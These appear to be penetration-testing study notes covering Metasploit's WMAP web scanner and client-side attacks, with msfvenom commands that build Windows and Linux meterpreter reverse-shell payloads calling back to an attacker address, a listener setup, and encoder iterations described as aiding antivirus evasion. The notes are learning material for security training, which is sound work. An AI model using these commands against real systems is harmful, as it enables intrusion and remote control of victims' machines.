 ### Web Application vuln scanning with WMAP

* WMAP is msf plugin, should be installed by default

Usage:
* load wmap from msfconsole
    * wmap_sites -a <target>
        * wmap_sites -l --> shows all the sites onboarded
    * wmap_targets -t http://<ip>
    * wmap_run -t --> shows all aux modules enabled for target
    * wmap_run -e --> start testing the target
* the demo lab:
    * the wmap_run reveals the presence of /data folder
    * use auxiliary/scanner/http/http_put
        * this module works, suggesting vulnerability with upload and RCE, if a reverse shell or webshell is upload

## Client Side Attacks

A client side attack is an attack vector that involved coercing a client to execute a malicious payload on thier system that consequently connects back to the attacker when executed.

This is different from host/system based attack, this style of attack takes advantage of human vulns as opposed to vulns in a host/service. ex: via social engineering

### Generating payloads with Msfvenom

* msfvenom comes pre-installed
* msfvenom can generate as well as encode payload
* sample windows payload
    * msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=1234 -f exe > ~/payloadx86.exe
* list output formats
    * msfvenom --list formats
* sample linux payload
    * msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=1234 -f elf > ~/linux_payloadx86.elf
* to setup listener on metasploit
    * use multi/handler
    * set payload <payload>; set LHOST <self_ip>; set LPORT <self_port>; run --> these values should be the same as when msfvenom args used while generating the payload

### Encoding payload with msfvenom

* msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=1234 -e x86/shikata_ga_nai -f exe > ~/payloadx86_shikata_ga_nai.exe
* msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=1234 -i 10 -e x86/shikata_ga_nai -f exe > ~/payloadx86_shikata_ga_nai_10_iterations.exe (This one has 10 iterations, more iteration help with evasion)

### Injecting payloads into windows portable executables
